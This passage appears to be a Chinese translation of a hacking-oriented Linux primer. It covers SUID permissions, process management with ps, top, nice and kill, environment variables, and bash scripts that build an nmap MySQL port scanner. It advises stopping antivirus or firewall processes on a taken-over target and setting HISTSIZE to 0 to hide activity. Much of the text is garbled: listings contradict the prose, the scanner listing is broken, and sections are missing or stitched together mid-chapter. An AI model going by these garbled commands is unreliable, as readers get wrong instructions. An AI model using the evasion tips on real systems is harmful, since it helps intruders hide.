你现在应该已经知道，用户只有在拥有该特定文件执行权限时才能执行该文件。如果用户只有读和/或写权限，他们就无法执行。这看起来可能很直接，但这条规则是有例外的。

你可能遇到过一种情况：某个文件在执行期间对所有用户（即使非 root 用户）都需要 root 权限。例如，允许用户访问 `/etc/shadow` 的文件。

#### 列表 5-2：查找设置了 suid 位的文件

输出显示了许多设置了 suid 位的文件。让我们进入 `/usr/bin` 目录（其中许多文件都位于此处），然后对该目录运行长列表，并向下滚动找到 `sudo` 文件，如列表 5-3 所示。

```
kali ~cd /usr/bin

kali ~ls -l

-- snip --

-rwxr-xr-x 1 root root 176227      Jul 18 2018 stunnel4

-rwxr-xr-x 1 root root 266966      Mar 17 2018 sucrack

-rwxr-xr-x 1 root root 140944      Jul 5 2018 sudo

-- snip --
```

#### 列表 5-3：识别设置了 suid 位的文件

注意在 {1}处，第一组权限（针对所有者）用 `s` 替换了 `x`。这就是 Linux 表示 SUID 位已设置的方式。这意味着运行 `sudo` 文件的任何人都拥有 root 用户的权限，这可能成为系统管理员的安全隐患，并成为黑客的潜在攻击向量。例如，某些应用程序需要访问 `/etc/shadow` 文件才能成功完成其任务。如果攻击者能够控制该程序，他们就可以利用该程序对 Linux 系统密码的访问。

Linux 拥有一完善的安全系统，可以保护文件和目录免受未经授权的访问。有志黑客需要对该系统基础了解，不仅是为了保护自己的文件，还为了执行新的工具和文件。在某些情况下，黑客可以利用 SUID 和 SGID 权限将权限从普通用户提升到 root 用户。

### 总结

Linux 使用权限保护用户或组的文件和目录免受系统中其他用户的访问，可以用于进攻和防御。你现在应该知道如何管理这些权限，以及如何利用该安全系统中的弱点——特别是 SUID 和 SGID 位。

### 练习题

在进入第 6 章之前，通过完成以下练习来检验你在本章中学到的知识：

- 1. 选择一个目录并对其运行长列表。注意文件和目录的权限。
- 2. 选择一个你没有权限执行的文件，并使用 `chmod` 命令赋予自己执行权限。尝试同时使用数字方法 (`777`) 和 UGO 方法。
- 3. 选择另一个文件并使用 `chown` 更改其所有者。
- 4. 使用 `find` 命令找到所有设置了 SGID 位的文件。

## 6 进程管理

在任何时刻，Linux 系统通常会有数百个、有时甚至是数千个进程同时运行。*进程*（process）简单来说就是运行并使用资源的程序。它包括终端、Web 服务器、任何正在运行的命令、任何数据库、GUI 界面等。任何优秀的 Linux 运维员——特别是黑客——都需要理解如何管理他们的进程以优化系统。例如，一旦黑客接管了目标系统，他们可能想要找到并停止某个进程，比如防病毒软件或防火墙。要做到这一点，黑客首先需要知道如何找到该进程。黑客可能还会设置一个定期运行扫描脚本来发现漏洞系统，因此我们还将查看如何调度此类脚本。

在本章中，你将学习管理这些进程。首先，你将学习如何查看和查找进程，以及如何发现哪些进程消耗最多的资源。然后，你将学习通过在后台运行进程、设置其优先级以及在必要时杀死它们（可能会“血流四溅”）来管理进程。最后，你将学习调度进程在指定的日期、特定的特定时间运行。

### 查看进程

在大多数情况下，管理进程的第一步是查看系统上运行了哪些进程。查看进程的主要工具——也是 Linux 运维员的好朋友之一——是 `ps` 命令。在命令行中运行它以查看哪些进程正在活动：

```
kali >ps
PID TTY TIME CMD
39659 pts/0 00:00:01 bash
39665 pts/0 00:00:00 ps
```

Linux 内核是操作系统的核心，控制着几乎一切，它会在进程创建时顺序为每个进程分配一个唯一的进程 ID (`PID`)。在 Linux 中处理这些进程时，你通常需要指定它们的 `PID`，因此记录进程的 `PID` 比记录进程名称重要得多。

单独的 `ps` 命令并不能为你提供太多信息。由当前登录用户（在本例中为 root）在不带任何选项的情况下运行 `ps` 命令，只会显示该终端上正在运行的进程。在这里，它只是表示 bash shell 正在打开并运行，我们运行了 `ps` 命令。我们需要并想要比这多多的信息，特别是那些由其他用户和系统后台运行的进程。没有这些信息，我们对系统中实际发生什么几乎知之甚少。

使用 `aux` 选项运行 `ps` 命令可以显示所有用户在系统上运行的所有进程，如列表 6-1 所示。

```
kali >ps
USER %CPU %MEM VSZ RSS TTY STAT TIME COMMAND
root 0.0 0.0 4304 2160 pts/0 S 15:13 0:00 [k]
root 0.0 0.0 4304 2160 pts/0 S 15:13 0:00 [softirqd]
root 0.0 0.0 4304 2160 pts/0 S 15:13 0:00 [thread]
root 0.0 0.0 4304 2160 pts/0 S 15:13 0:00 [soft]
root 0.0 0.0 4304 2160 pts/0 S 15:13 0:00 [init]
root 0.0 0.0 4304 2160 pts/0 S 15:13 0:00 [k]
root 0.0 0.0 4304 2160 pts/0 R+ 15:18 0:00 [ps]
```


列表 6-1：使用 `aux` 选项查看所有用户的进程

为了目的，这里是最重要的列：
- `USER`：调用进程的用户
- `PID`: 进程 ID
- `%CPU`: 占用 CPU 百比
- `%MEM`: 占用内存百分比
- `VSZ`: 虚拟内存大小
- `RSS`: 驻内存大小
- `TTY`: 与进程关联的终端
- `STAT`: 进程状态
- `TIME`: 进程使用的 CPU 时间
- `COMMAND`: 命令名称

通常情况下，当我们查询进程时，并不想要显示所有进程。这仅仅是信息过量的问题。我们通常只想找到*单个*进程。为了这样做，可以使用我们在第 1 章介绍的过滤命令 `grep`。

### 按进程名过滤

为了演示，我们将使用 Metasploit 框架，它是最广泛使用的攻击框架，也是几乎每个黑客的朋友。它已安装在你的 Kali 系统上，通过以下命令启动 Metasploit：

```
kali >msfconsole
```

一旦攻击框架启动，让我们看看是否能在进程列表中找到它。要这样做，使用 `ps` 命令并通过管道 (`|`) 传递给 `grep` 查找字符串 `"msfconsole"`，如列表 6-2 所示。

```
kali >ps aux | grep msfconsole

root 39756 0.0 0.0 4304 716 pts/2 Ss+ 15:13 0:00 service postgresql start && msfdb init & msfconsole

root 39799 35.1 15.2 4304 227888 pts/2 Sl+ 15:13 1:36 ruby /usr/bin/msfconsole

root 39892 0.0 0.0 4304 940 pts/2 S+ 15:18 0:00 grep msfconsole
```

列表 6-2：过滤 `ps` 以查找特定进程

从此列表的过滤输出中，你应该看到包含 `msfconsole` 的所有进程。PostgreSQL 数据库（Metasploit 使用数据库）首先显示，然后是 `msfconsole` 程序本身。最后，你应该能看到你查找 `msfconsole` 的 `grep` 命令。

当你输入 `ps` 命令时，进程按照它们启动的顺序显示。由于内核是按照启动顺序分配 `PID` 的，因此你看到的是按 `PID` 数字排序的进程。

在许多情况下，我们想知道哪些进程正在消耗最多的资源。这正是 `top` 命令派上用场的地方因为它按资源使用情况对进程进行排序，并从消耗最高者开始显示。与 `ps` 命令提供进程的单次快照不同，`top` 会动态刷新列表——默认每 10 秒刷新一次。你可以像列表 6-3 所示观察并监控这些资源密集型进程。

```
kali >top

top - 15:31:17 2 days, ^50, 4 users, load average: 0.00, 0.04, 0.09

Tasks: 176 total, 1 running, 175 sleeping, 0 stopped, 0 zombie

%Cpu(s): 1.3 us, 0.7 sy, ni, 97.4 id, 0.0 wa, 0.0 %MEM 0.0 hi 0.0 si

Kib Mem: 149120 total, 64848 free, 488272 used, 938100 buff/cache

Kib Swap: 1046524 total, 1044356 free, 2168 used, 784477 avail MEM CMD

PID USER PR NI VIRT RES SHR %CPU %MEM TIME+ COMMAND

39759 root 20 0 893180 247232 114888 S 0.7 16.6 1:47.88 ruby

39859 root 20 0 27308 16796 14272 S 0.3 1.2 1:47.88 postgres

39933 root 20 0 299336 61500 29108 S 0.7 4.1 1:47.88 Xorg

--snip--
```

列表 6-3：使用 `top` 查找最贪婪的进程

系统管理员经常在终端中运行 `top` 以监控进程资源的使用情况。作为一名黑客，你可能也想这样做，特别是当你的系统上运行着多个任务时。在 `top` 运行时，按下 `H` 或 `q` 将调出交互式命令列表，按下 `Q` 则将退出 `top`。你将在第 65 页的“使用 nice 更改进程优先级”和第 66 页的“杀死进程”中再次使用 `top` 来管理你的进程。

### 管理进程

黑客经常需要多进程处理，像 Kali 这样的操作系统非常适合这一点。黑客可能在运行漏洞扫描器和利用程序的同时运行一个端口扫描器。这要求黑客高效地管理这些进程，以充分利用系统资源并完成任务。在本节中，我将向你展示如何管理多个进程。

# 使用 更改进程优先级

你通常不会在黑客的语境下听到 `nice` 这个词，在这里你会听到。`nice` 命令用于影响内核对进程优先级的设定。正如我们运行 `ps` 命令时看到的，有许多进程同时在系统上运行，并且它们都在竞争可用资源。内核对进程的优先级具有最终决定权，但你可以使用 `nice` 来建议提高进程的优先级。

使用 `nice` 一词的背后原理是，当你使用它时，你是在决定你对其他用户有多“友好”（nice）：如果你的进程正在使用大部分系统资源，说明你并不友好。

`nice` 的取值范围从 -20 到 +19，其中 0 是默认值（见图 6-1）。高 `nice` 值对应低优先级，低 `nice` 值对应高优先级（当你不对其他用户和进程并不那么“友好”时）。当进程启动时，它会继承父进程的 `nice` 值。进程所有者可以降低进程的优先级，但不能增加其优先级。当然，超级用户或 root 用户可以随意设置他们喜欢的任何 `nice` 值。


图 6-1：Niceness 优先级值

当你启动一个进程时，可以使用 `nice` 命令设置优先级级别，然后在进程运行后通过 `renice` 命令更改优先级。这两个命令的语法略有不同，`nice` 命令要求递增 `nice` 值，而 `renice` 命令则需要 `niceness` 的绝对值。让我们来看一个示例来演示这一点。

### 在启动进程时设置优先级

为了演示目的，假设我们有一个名为 `slowprocess` 的进程，它位于 `/bin/slowprocess`。如果我们想让它加快完成速度，可以使用 `nice` 命令启动该进程：

```
kali >nice -n -10 /bin/slowprocess
```

此命令将 `nice` 值递增 -10，从而提高其优先级并分配更多资源。

另一方面，如果我们想对其他用户和进程保持“友好”，给 `slowprocess` 分配较低的优先级，我们可以正增加它的 `nice` 值：

```
kali >nice -n 10 /bin/slowprocess
```

# 更改运行中进程的优先级

`renice` 命令接收 `niceness` 的绝对值并设置目标进程的优先级，而不是在当前水平上增加或减少它。因此，如果 `slowprocess` 正在消耗大量资源，而你想给它分配较低的优先级，可以使用 PID 使用 `renice`：

```
kali >renice -10 39759
```

当我按下 `R` 时，系统会询问 PID。随后输出应该发生变化以反映新的优先级。你也可以使用 `top` 工具来更改 `nice` 值；在 `top` 运行时，只需按下 `H` 并提供 `nice` 值即可。

列表 6-4：当 `top` 运行时更改 `nice` 值

如果你只是想通过 HUP 信号重启进程，可以使用 `kill` 命令输入 -1 选项，如下所示：

```
kali >kill -1 6996
```

对于僵尸进程或恶意进程，你可能想向该进程发送 `kill -9` 信号，这是绝对的杀进程信号。这可以确保进程被终止。

```
kali >kill -9 6996
```

如果你不知道进程的 `PID`，可以使用 `killall` 命令来杀死进程。该命令使用进程名称而不是 `PID` 作为参数。

例如，你可以终止一个假设的 `zombieprocess`：

```
kali >killall -9 zombieprocess
```

最后，你可以在 `top` 命令中终止进程。只需按下 `K` 键，然后输入该违规进程的 `PID` 即可。

## 在后台运行进程

在 Linux 中，无论你是在命令行界面还是 GUI 中工作，你都是在一个 shell 中进行操作的。所有运行的命令都会在该 shell 中执行，即使它们是从图形界面运行的。当你执行一个命令时，shell 会等待命令完成后再提供下一个命令提示符。

有时，你可能希望一个进程在后台运行，而不是在终端中等待它完成。例如，假设我们想在文本编辑器中编写脚本，因此通过输入以下命令调用了文本编辑器（leafpad）：

```
kali >leafpad newscript
```


在这种情况下，bash shell 将打开 `leafpad` 文本编辑器来创建 `newscript`。当我们在文本编辑器中工作时，终端由于运行文本编辑器而被占用。如果我们返回终端，应该会看到它正在运行我们的文本编辑器，并且我们没有新的提示符允许我们输入更多命令。

当然，我们可以打开另一个终端来运行更多命令，但节省资源占用的更好选择是让文本编辑器在后台运行。在后台运行进程简单意味着它将在不需要终端的情况下继续运行。这样一来，终端就可以释放出来处理其他任务了。

要在后台启动文本编辑器，只需在命令末尾添加安培符号 `&`，如下所示：

```
kali >leafpad newscript &
```

现在，当文本编辑器打开时，终端会返回一个新的命令提示符，这样我们可以在编辑 `newscript` 的同时在系统上输入其他命令。对于任何在使用终端时可能运行较长时间的进程，这都是有效的。。作为黑客，你会发现这对于运行带有多个任务的终端非常有用，可以节省资源和屏幕空间。

### 将进程移动到前台

如果你想将后台运行的进程移动到前台，可以使用 `fg`（foreground）命令。`fg` 命令需要你想要返回前台的进程的 PID，如下所示：

```
kali >fg 1234
```

如果你不知道 PID，可以使用 `ps` 命令来查找它。

### 调度进程

Linux 系统管理员和黑客经常需要调度进程在一天中的特定时间运行。例如，系统管理员可能想调度系统备份在每周六晚上凌晨 2 点运行。黑客可能想设置一个脚本定期运行，以执行常规侦察工作，寻找开放的端口或漏洞。在 Linux 中，你至少可以通过两种方式实现这一目标：使用 `at` 和 `cron`。

`at` 命令是一个守护进程——即一个后台进程——用于调度任务在未来的某个时间点运行一次。`cron` 则更适合调度每天、每周或每个月发生一次的任务，我们将在第 16 章中详细介绍。

我们使用 `at` 来调度未来执行一组命令。其语法简单来说就是 `at` 命令后跟执行进程的时间。时间参数可以用各种格式提供。表 6-2 包含了最常见的 `at` 时间格式。

表 6-2：`at` 命令接受的时间格式

| 时间格式 | 含义 |
| :--- | :--- |
| at 7:20pm | 调度在今天下午 7:20 运行 |
| at 7:20pm June 25 | 调度在 6 月 25 日下午 7:20 运行 |
| at noon | 调度在今天中午运行 |
| at noon June 25 | 调度在 6 月 25 日中午运行 |
| at tomorrow | 调度在明天运行 |
| at now + 20 minutes | 调度在当前时间 20 分钟后运行 |
| at now + 10 hours | 调度在当前时间 10 小时后运行 |
| at now + 5 days | 调度在当前日期 5 天后运行 |
| at now + 3 weeks | 调度在当前日期 3 周后运行 |

| 时间格式 | 含义 |
| :--- | :--- |
| at 7:20pm | 调度在 2019 年 6 月 25 日下午 7:20 运行 |
| 06/25/2019 | |

当你输入指定的时间进入守护进程时，它会进入交互模式，你会看到一个 `at>` 提示符。在这里你输入你想要在指定时间执行的命令：

```
kali >at 7:20am

at >/root/myscanningscript
```

这段代码段将调度 `myscanningscript` 在今天早晨 7:20 执行。

### 总结

在 Linux 中管理进程是黑客的一项关键技能。你必须能够查看、终止和调度进程。在本章中，我们涵盖了如何在后台运行进程、将它们移动到前台以及使用 `at` 和 `cron` 对它们进行调度。

练习

在进入下一章之前，尝试以下操作：
1. 使用 `top` 命令识别一个正在运行的进程及其 PID。
2. 使用 `kill` 命令根据 PID 终止进程。
3. 使用 `killall` 命令根据名称终止进程。
4. 使用 `fg` 命令将后台进程移动到前台。
5. 使用 `at` 命令调度脚本在 30 分钟后运行。
6. 使用 `cron` 命令调度任务每天午夜运行一次。

可以使用 `set` 命令并将其管道传输到 `more` 命令来更方便地访问变量，如下所示：

```
kali >set | more

BASH=/bin/bash

BASHOPTS=checkwinsize:cmdlist:complete_fullquote:expand_aliases:extglob.\.

BASH_ALIASES=()

BASH_ARGC=()

BASH_ARGV=()

--snip--
```

现在，变量列表将逐行填满整个屏幕，然后停止。当你按下 ENTER 键时，终端会移动到下一行，带你进入下一个变量，你可以通过按下或按住 ENTER 键来滚动查看。正如你在第 2 章中所记得，每当你使用 `more` 命令进行输出时，都可以输入 `q` 退出（或 exit）并返回命令行提示符。

### 过滤特定变量

虽然使用 `set` 配合 `|` 比直接查看 `set` 产生的一大堆变量名更易管理，但如果你正在寻找特定的变量，这可能仍然相当繁琐。相反，你可以使用过滤命令 `grep` 来找到你感兴趣的变量。

让我们以 `HISTSIZE` 变量为例。该变量包含了你的命令历史将存储的最大命令数。这些命令是你在本次会话之前输入到命令行提示符的任何命令，可以通过向上和向下方向键调回。请注意，`HISTSIZE` 并不存储命令本身，而是存储可以存储的数量。

将 `set` 的输出管道到 `grep` 以查找 `HISTSIZE` 变量，如下所示：

```
kali >set | grep HISTSIZE

HISTSIZE=1000
```

如你所见，此命令找到了 `HISTSIZE` 变量并显示了它的值。该变量的默认值在你的系统中可能被设置为 1000。这意味着终端默认将存储你最后 1,000 条命令。

## 修改会话中的变量值

现在让我们看看如何更改变量的值。如所述，`HISTSIZE` 变量包含存储在历史文件中命令数量的值。有时，你可能不想让系统保存过去的命令——也许因为你不想在自己的系统或目标系统上留下任何你活动的痕迹。在这种情况下，你可以将 `HISTSIZE` 变量设置为 0，这样系统就不会存储你的任何过去命令。由于此变量只有一个值，要更改它，你只需按照列表 7–1 所示所示常用方式为其分配一个新值。

```
kali >HISTSIZE=0
```

列表 7-1：更改 `HISTSIZE` 的值

现在，当你尝试使用向上和向下方向键来回你的命令时，什么都不会发生，因为系统不再存储它们了。这种做法是具有隐蔽性的，尽管这可能会带来不便。

## 使变量值的更改持久化

当你更改环境变量时，该更改仅发生在那个特定的环境中；在这种情况下，环境是 bash shell 会话。这意味着当关闭关闭终端时，你所做的任何更改都将丢失，值将恢复为默认值。如果你想让这些更改持久化，你需要使用 `export` 命令。该命令会将新值从你当前的环境（bash shell）导出到系统的其余部分中中，使其在每个环境中都可用，直到你再次更改并导出它为止。

变量是字符串，所以如果你行事比较谨慎，在修改变量之前将变量的内容保存到文本文件中并不是坏主意。例如，由于我们正要更改 `PS1` 变量（它控制你在提示符中显示的信息），首先运行以下命令将现有值保存到当前用户家目录下的文本文件中：

```
kali >echo $HISTSIZE ~/valueofHISTSIZE.txt
```

这样，你就可以随时撤销更改。如果你想更加谨慎并创建一个包含所有当前设置的文本文件，可以使用如下命令将 `set` 命令的输出保存到文本文件中：

```
kali >set ~/valueofAllOn02017.txt
```

在更改变量后（正如我们在列表 7-1 中所做），你可以通过输入 `export` 然后你更改的变量名称来使更改持久化，如下所示：

```
kali >export HISTSIZE
```

现在，当你离开此环境并进入另一个环境时，`HISTSIZE` 变量仍然会被设置为 0。如果你想将 `HISTSIZE` 变量重置为 1,000，只需输入：：

```
kali >HISTSIZE=1000

kali >export HISTSIZE
```

这段代码段将你的 `HISTSIZE` 变量值设为 1,000 并将其导出到你所有的环境中。

将目录添加到 `PATH` 中对于经常使用的目录来说是一个很有用的技巧，但请不要向 `PATH` 变量中添加过多的目录。因为系统必须搜索 `PATH` 中的每一个目录来查找命令，添加许多目录可能会减慢终端和后台运行的速度。

## 如何避免向 PATH 变量添加内容

新 Linux 用户常犯的一个错误是按这种方式将新目录（例如 `/root/newhackingtool`）直接赋值给 `PATH` 变量：


kali >`PATH`=`/root/newhackingtool`

kali >`echo` `$PATH`

`/root/newhackingtool`

如果你使用此命令，你的 `PATH` 变量将只包含 `/root/newhackingtool` 目录，而不再包含 `/bin`、`/sbin` 等存放关键命令的系统二进制文件目录。当你随后尝试使用任何系统命令时，将会收到“command not found”（未找到命令）的错误，如下所示，除非你在执行命令之前先导航到系统二进制目录：

```
kali >cd
bash: cd: command not found
```

请记住，你想**追加**到 `PATH` 变量，而不是**替换**它。如果你不确定，可以在修改之前先将变量的内容保存到某处。

### 创建自定义变量

在 Linux 中，你只需通过为你命名的新变量赋值值，即可创建自定义的用户定义变量。当你进行一些高级 Shell 脚本编写，或者发现自己经常使用某条厌倦了反复输入的长命令时，这可能非常有用。

语法非常直观：输入变量名，紧接着是赋值符号（`=`），然后是要放入变量中的值，如下所示：

```
kali >NEWVARIABLE="Hacking is the most valuable skill set in the 21st century"
```

这会将一个符号赋予变量 `MYVARIABLE`。要查看该变量中的值，请使用 `echo` 命令和变量名的 `$` 符号，正如我们之前做的那样：

```
kali >echo $MYVARIABLE

Hacking is the most valuable skill set in the 21st century
```

就像系统环境变量一样，用户定义变量必须导出（`export`）才能在新的会话中持续。

如果你想删除这个新变量或任何变量，请使用 `unset` 命令。不过，在删除系统变量之前务必考虑，因为之后系统的运行方式可能会大不同。

```
kali >unset MYVARIABLE
kali >echo $MYVARIABLE
kali >
```

如你所见，当你输入 `unset MYVARIABLE` 时，你删除了该变量及其值。如果你对同一个变量使用 `echo`，Linux 现在将返回一个空行。

### 总结

你可能觉得环境变量很陌生，但它们值得了解。它们控制着你 Linux 工作环境的外观、行为和感受。你可以通过更改、导出甚至创建自己的变量来管理这些变量，从而根据你的需求定制环境。在某些情况下，它们对于你作为黑客隐藏踪迹可能有用。

### 练习

在进入第 8 章之前，请尝试通过完成以下练习来练习在本章中学到的技能：

- 1. 使用 `more` 命令查看所有的环境变量。
- 2. 使用 `echo` 命令查看 `HOSTNAME` 变量。
- 3. 找到一种方法在伪 Microsoft cmd PS1 示例中将斜杠（/）更改为反斜杠（\）（参见列表 7-2）。
- 4. 创建名为 `MYNEWVARIABLE` 的变量并将你的名字存其中。
- 5. 使用 `echo` 查看 `MYNEWVARIABLE` 的内容。
- 6. 导出 `MYNEWVARIABLE` 以使其在所有环境中都可用。
- 7. 使用 `echo` 命令查看 `PATH` 变量的内容。
- 8. 将你的家目录添加到 `PATH` 变量，以便家目录中的任何二进制文件可以在任何目录中使用。
- 9. 将你的 `PS1` 变量更改为“World’s Greatest Hacker”。

## 8 BASH 脚本


任何自尊的黑客都必须能够编写脚本。同样，任何自尊的 Linux 管理员都必须能够编写脚本。黑客经常需要自动化命令，有时涉及多个工具，而最有效的方法是通过他们自己编写的简短程序来实现。

在本章中，我们将构建几个 bash shell 脚本来带你入门。随着课程的进行，我们将添加功能和特性，最终构建一个能够在一个 IP 地址范围内寻找潜在攻击目标的脚本。

要成为一名精英黑客，你还需要具备用广泛使用的脚本语言之一编写脚本的能力，例如 Ruby（Metasploit 漏洞利用是用 Ruby 编写的）、Python（许多黑客工具都是 Python 脚本）或 Perl（Perl 是最好的文本处理脚本语言）。我将在第 17 章简要介绍 Python 脚本。

## Bash 快速上手课程

Shell 是用户与操作系统之间的接口，允许你操作文件并运行命令、实用程序、程序等。Shell 的优势在于你可以直接从计算机执行这些任务，而不是通过像 GUI（图形用户界面）这样的抽象层，这允许你根据需求自定义任务。Linux 可多种不同的 shell，包括 Korn shell、Z shell、C shell 以及 Bourne-again shell（更广为人知的 `bash`）。

由于 `bash` shell 几乎存在于所有的 Linux 和 UNIX 发行版（包括 macOS 和 Kali），我们将使用 `bash` shell。

`bash` shell 可以运行任何系统命令、实用程序或应用程序。在本节中，你将使用两个命令：`echo` 命令（显示消息）和 `read` 命令（读取数据并存储在某处）。

你需要一个文本编辑器来创建 shell 脚本。你可以使用任何喜欢的 Linux 编辑，包括 `vi`、`vim`、`emacs`、`edit`、`kate` 等。我将在教程中使用一种。

## 你的第一个脚本：“Hello, Arise!”

对于你的第一个脚本，我们将从一个简单的程序开始，在屏幕上返回“Hello, Arise!”。打开你的文本编辑器，开始吧。

首先，你需要告诉操作系统你想使用哪种解释器。为此，输入一个 shebang（解释器），它是井号和感叹号的组合，如下：

`#!`

然后紧随其后的 `/bin/bash` 表示你想使用 `bash` shell。正如我们在后面的章节中看到的，你也可以使用 shebang 使用其他解释器，例如 Perl 或 Python。在这里，你想使用 `bash` 解释器，输入：

`#!/bin/bash`

接下来，输入 `echo` 命令，它告诉系统简单地返回命令之后的所有内容。

在这个例中，我们希望系统向我们返回“Hello, Arise!”,正如列表 8-1 所示。注意，我们要返回的文本或消息必须放在双引号内。

```
#!/bin/bash

# 这是我的第一个脚本。祝我好运。

echo "Hello, Arise!"
```

列表 8-1：“Hello, Arise!”脚本

在这里，你还看到了一行以井号（`#`）开头的内容。这是一个注释，是你留给自己或任何阅读代码的人的笔记，用于解释你在脚本中做什么。程序员在每种编程语言中都会注释。这些注释不会被解释器读取或执行，所以你不需要担心破坏代码。它们只对人类可见。如果一行以 `#` 字符开头，`bash` shell 就认为它是一行注释。

默认情况下，新创建的 `bash` 脚本即使对你这个所有者也是不可执行的。让我们通过 `cd` 进入目录，然后输入 `ls -l` 来在命令行查看我们新文件的权限。它看起来应该是这样的：

```
kali >ls -l
--snip--
--rw-r--r--r-- 1 root 42 Oct 22 14:32 HelloHackersArise
--snip--
```

如你所见，我们的新文件具有 `rw-r--r-- (644)` 权限。正如你在第 5 章中学到的，这意味着该文件的所有者只有读取 (`r`) 和写入 (`w`) 权限，而组和其他所有用户只有读取权限。我们需要赋予自己执行权限以运行此脚本。正如你在第 5 章中看到的，我们使用 `chmod` 命令来更改权限。要给所有者、组和其他所有人执行权限，请输入以下内容：

```
kali >chmod 755 HelloHackersArise
```

现在，当我们对该文件进行详细列出时（如下），我们可以看到我们已经有了执行权限：

```
kali >ls -l
--snip--
--rwx-x r-x 1 root 42 Oct 22 14:32 HelloHackersArise
--snip--
```

脚本现在准备好执行了！

## 运行 HelloHackersArise

要运行我们的简单脚本，请输入以下内容：

```
kali >./HelloHackersArise
```


文件名`./`告诉系统我们想在当前目录的文件`HelloHackersArise`中执行此脚本。它还告诉系统，如果另一个目录中也有一个名为`HelloHackersArise`的文件，请忽略它，只运行当前目录下的`HelloHackersArise`。虽然你的系统中可能不太可能有另一个同名文件，但在执行文件时使用`./`是一个良好的习惯，因为会将文件执行定位在当前目录，而且许多目录会有重名的文件名，例如`start`和`setup`。

当我们按下回车键时，我们这个非常简单的脚本会将消息返回到显示器上。

Hello, Hacker-Arise!

成功！你刚刚完成了第一个 shell 脚本！

## 使用变量和用户输入添加功能

现在，我们有了一个简单的脚本。它所做的只是向标准输出回显消息。如果我们想创建更高级的脚本，可能需要添加一些变量。

变量是可以在内存中存放某些内容的存储区域。这些“内容”可能是某些字母或单词（字符串）或数字。它被称为变量，是因为其中存储的值是可以改变的；这是为脚本添加功能的一项极其实用的特性。

在下一个脚本中，我们将添加功能来提示用户输入姓名，将他们输入的任何内容放入变量中，然后提示用户他们正在这本书的第几章，并将该键盘输入也放入变量中。之后，我们将向用户输出包含他们的姓名和章节的欢迎消息。

在你的文本编辑器中打开一个新文件，并输入列表 8-2 所示的脚本。

```
#! /bin/bash

# 这是你的第二个 bash 脚本。在这个脚本中，你提示

# 用户输入，将输入放在变量中，并

# 在字符串中显示变量的内容。

echo "What is your name?",
read name

echo "What chapter are you on in Linux Basics for Hackers?",
read chapter

echo "Welcome" $name "to Chapter" $chapter "of Linux Basics for
Hackers!"

# Listing 8-2: 使用变量的简单脚本
```

我们以`#! /bin/bash`开头，告诉系统我们要使用`bash`解释器处理脚本 ➀。然后我们添加了一个描述脚本及其功能的注释 ❷。之后，我们提示用户输入姓名，并要求解释器读取输入并放入我们名为`name`的变量 ➌ 中。我们提示用户输入他们正在学习这本书的章节，再次将键盘输入读取变量中，这次称为`chapter` ⒋。

在最后一行，我们构建了一行输出，通过他们的姓名欢迎读者进入他们所在的 ➎ 章节。我们使用`echo`命令并在双引号中提供我们想要在屏幕上显示的文本。然后，为了填充用户输入的姓名和章节号，我们在消息中应该出现的地方添加变量。
正如第 7 章提到的，要使用变量中包含的值，必须在变量名前加上`$`符号。

将此文件保存为`WelcomeScript.sh`。`.sh`扩展名是脚本文件的约定。你可能注意到我们早期没有包含扩展名，这不是强制要求的，而且如果你省略扩展名，文件将默认保存为 shell 脚本文件。

现在，让我们运行这个脚本。别忘了先用`chmod`赋予自己执行权限；否则，操作系统将会责备：

```
kali >./WelcomeScript.sh

What is your name?

OccupytheWeb

What chapter are you on in Linux Basics for Hackers?

8

Welcome OccupytheWeb to Chapter 8 of Linux Basics for Hackers?
```

如你所见，你的脚本接收了用户的输入，将其放入变量，并使用这些输入为用户生成了欢迎。


```
cat MySQLScan | grep > MySQLscan 3

cat MySQLscan
```

列表 8-3：简化的扫描器脚本

我们从 shebang 和要使用的解释器开始 1。接下来我们跟上一个注释来解释该脚本的作用 2。

现在，让我们使用 `nmap` 命令在我们的局域网（LAN）上请求一次 TCP 扫描 3，寻找 3306 端口 4。（注意，你的 IP 地址可能不同；在终端中，请在 Linux 上使用 `ifconfig` 命令或在 Windows 上使用 `ifconfig` 命令来确定你的 IP 地址。）为了保持隐蔽性，我们还将把通常显示在屏幕上的标准 nmap 输出发送到 Linux 中的一个特殊位置，在那里它会消失 5。由于我们在本地机器上进行操作，所以这并不重要，但如果你远程使用它，你可能希望隐藏 nmap 的输出。然后，我们将扫描结果以可 grep 搜索的格式发送到名为 `MySQLScan` 的文件中 6，即 `grep` 工具可以处理的格式。

下一行显示我们存储输出的 `MySQLscan`，然后通过管道传递给 `grep` 以过滤出包含关键词的行 7。接着，我们将这些行存入名为 `MySQLscan2` 的文件中 8。

最后，你显示 `MySQLscan2` 文件的内容。这个最终文件应该只包含 3306 端口开启的宿机的 nmap 输出行。将此文件保存为 `MySQLscanner.sh`，并使用 `chmod 755` 赋予自己执行权限。

执行脚本，如下所示：

```
kali >./MySQLscanner.sh

host: 192.168.181.69 ( Ports: 3306/open/tcp/mysql//
```

我们可以看到，这个脚本能够识别出我局域网中唯一运行 MySQL 的 IP 地址。你的结果可能会有所不同，这取决于你的本地网络是否有任何端口运行着 MySQL 安装。

# 改进 MySQL 扫描器

现在我们想要修改此脚本，使其不仅适用于你的本地局域网。如果脚本能提示用户他们想要扫描的 IP 地址范围和要查找的端口，并使用这些输入，它将会好用得多。记得，你在第 84 页的“使用变量和用户输入添加功能”中已经学习了如何提示用户并将他们的键盘输入放入变量中。

让我们看看如何使用变量来让这个脚本更加灵活和高效。

## 为我们的黑客脚本添加提示符和变量

在你的文本编辑器中，输入列表 8-4 所示的脚本。

```
#! /bin/bash

echo "Enter the starting IP address :"

read FirstIP

echo "Enter the last octet of the last IP address :"

read LastOctetIP

echo "Enter the port number you want to scan for :"

read port

nmap -sT $FirstIP-$LastOctetIP -p $port >/dev/null -oG MySQLScan

cat MySQLScan | grep open > MySQLScan2

cat MySQLScan2
```

列表 8-4：你的高级 MySQL 端口扫描器

我们需要做的是将指定的子网替换为 IP 地址范围。我们将创建一个名为 `FirstIP` 的变量和第二个名为 `LastoctetIP` 的变量来创建范围，并创建一个名为 `port` 的变量用于端口号（最后一个八字节是 IP 地址中第三个点之后的最后一组数字。在 IP 地址 192.168.1.101 中）

> 注意
变量的名称并不重要，但最佳实践是使用一个帮助你记住变量包含内容的名称。

我们还需要提示用户输入这些值。我们可以通过在列表 8-1 中使用的 `echo` 命令来实现。

为了获取 `FirstIP` 变量的值，我们在屏幕上显示 `Enter the starting IP address : ` 请求用户输入他们想要扫描的第一个 IP 地址 ❶。在屏幕上看到此提示后，用户将输入第一个 IP 地址，因此我们需要捕获用户的输入。

